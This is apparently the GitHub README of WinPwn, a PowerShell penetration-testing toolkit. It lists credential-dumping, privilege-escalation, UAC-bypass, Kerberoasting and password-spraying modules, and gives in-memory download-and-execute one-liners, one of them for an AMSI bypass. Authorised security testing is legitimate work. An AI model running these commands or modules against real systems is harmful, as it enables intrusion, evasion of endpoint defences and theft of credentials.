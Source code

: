 [![](https://img.shields.io/badge/Donate-Bitcoin-blue.svg?style=flat)](https://blockchain.info/address/1MXReD1F4w5SUXK3phLVJ5M8KrXJHfecmZ)

# WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate as many internal penetrationtest processes (reconnaissance as well as exploitation) and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Any suggestions, feedback, Pull requests and comments are welcome! 

Just Import the Modules with:
`Import-Module .\WinPwn.ps1` or 
`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')`

For AMSI Bypass use the following oneliner:
`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/ObfusWinPwn.ps1')`


If you find yourself stuck on a windows system with no internet access - no problem at all, just use Offline_Winpwn.ps1, all scripts and executables are included.

Functions available after Import:
* #### `WinPwn` -> Menu to choose attacks:
![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/images/WinPwn.JPG)
* #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
* #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
* #### `kittielocal` ->
  * Obfuscated Invoke-Mimikatz version
  * Safetykatz in memory
  * Dump lsass using rundll32 technique
  * Download and run obfuscated Lazagne
  * Dump Browser credentials
  * Customized Mimikittenz Version
  * Exfiltrate Wifi-Credentials
  * Dump SAM-File NTLM Hashes
* #### `localreconmodules` -> 
  * Collect installed software, vulnerable software, Shares, network information, groups, privileges and many more
  * Check typical vulns like SMB-Signing, LLMNR Poisoning, MITM6 , WSUS over HTTP
  * Checks the Powershell event logs for credentials or other sensitive informations
  * Collect Browser Credentials and history
  * Search for passwords in the registry and on the file system
  * Find sensitive files (config files, RDP files, keepass Databases)
  * Search for .NET Binaries on the local system 
  * Optional: Get-Computerdetails (Powersploit) and PSRecon
* #### `domainreconmodules` -> 
  * Collect various domain informations for manual review
  * Find AD-Passwords in description fields
  * Search for potential sensitive domain share files
  * ACLAnalysis
  * Unconstrained delegation systems/users are enumerated
  * MS17-10 Scanner for domain systems
  * Bluekeep Scanner for domain systems
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more)
  * MS-RPRN Check for Domaincontrollers or all systems
  * Group Policy Audit with Grouper2
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
* #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords, dll Hijacking, File Permissions, IKEExt Check, Rotten/Juicy Potato Check)
* #### `kernelexploits` ->
  * MS15-077 - (XP/Vista/Win7/Win8/2000/2003/2008/2012) x86 only!
  * MS16-032 - (2008/7/8/10/2012)!
  * MS16-135 - (WS2k16 only)!
  * CVE-2018-8120 - May 2018, Windows 7 SP1/2008 SP2,2008 R2 SP1!
  * CVE-2019-0841 - April 2019!
  * CVE-2019-1069 - Polarbear Hardlink, Credentials needed - June 2019!
  * CVE-2019-1129/1130 - Race Condition, multiples cores needed - July 2019!
  * CVE-2019-1215 - September 2019 - x64 only!
  * CVE-2020-0638 - February 2020 - x64 only!
  * Juicy-Potato Exploit
* #### `UACBypass` ->
  * UAC Magic, Based on James Forshaw's three part post on UAC
  * UAC Bypass cmstp technique, by Oddvar Moe
  * DiskCleanup UAC Bypass, by James Forshaw
  * DccwBypassUAC technique, by Ernesto Fernandez and Thomas Vanhoutte
* #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
* #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
* #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
* #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
* #### `Sharphound` -> Bloodhound 3.0 Report
* #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record
* #### `MS17-10` -> Scan active windows Servers in the domain or all systems for MS17-10 (Eternalblue) vulnerability
* #### `Sharpcradle` -> Load C# Files from a remote Webserver to RAM
* #### `DomainPassSpray` -> DomainPasswordSpray Attacks, one password for all domain users
* #### `bluekeep` -> Bluekeep Scanner for domain systems


## TO-DO
- [x] Some obfuskation
- [x] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/S3cur3Th1sSh1t/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [x] Add MS17-10 Scanner
- [x] Add menu for better handling of functions
- [x] Amsi Bypass
- [ ] Mailsniper integration

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock, AMsi Bypass
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL
- [X] [Cn33liz](https://github.com/Cn33liz/) - p0wnedShell
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - AmsiScanBufferBypass
- [X] [l0ss](https://github.com/l0ss/) - Grouper2
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [enjoiz](https://github.com/enjoiz/Privesc) - PrivEsc
- [X] [itm4n](https://github.com/itm4n) - Invoke-PrivescCheck
- [X] [James Forshaw](https://github.com/tyranid) - UACBypasses
- [X] [Oddvar Moe](https://github.com/api0cradle) - UACBypass

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
